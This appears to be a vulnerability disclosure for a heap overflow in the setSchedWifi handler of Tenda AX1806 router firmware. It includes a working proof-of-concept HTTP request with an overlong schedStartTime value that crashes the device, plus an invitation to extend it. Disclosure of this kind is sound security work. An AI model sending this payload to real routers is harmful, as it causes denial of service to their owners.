



# TENDA AX1806 v1.0.0.1 heap overflow Vulnerability in setSchedWifi

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3422.html
- Affected firmware version：v1.0.0.1



## Vulnerability Description

There is a heap overflow vulnerability in `setSchedWifi` function, in which the `src` and `v12` are directly obtained from http request parameter `schedStartTime` and  `schedEndTime` without checking their size. Then this function calls the `strcpy` function to copy the `src` to `v5+2`, and the `v12` to `v5+10`, while `v5` is a heap pointer. So, it's likely to cause a heap overflow.

This Vulnerability can easily lead to a Denial of Service(DoS). 



## POC

```
POST /goform/openSchedWifi HTTP/1.1
Host: 192.168.2.1
Cookie: password=a3b0b5bfc81588a7fb32b4278d53178akan5gk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 86

schedStartTime=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```



The router will crash after sending the poc, and you may modify this for further exploiting.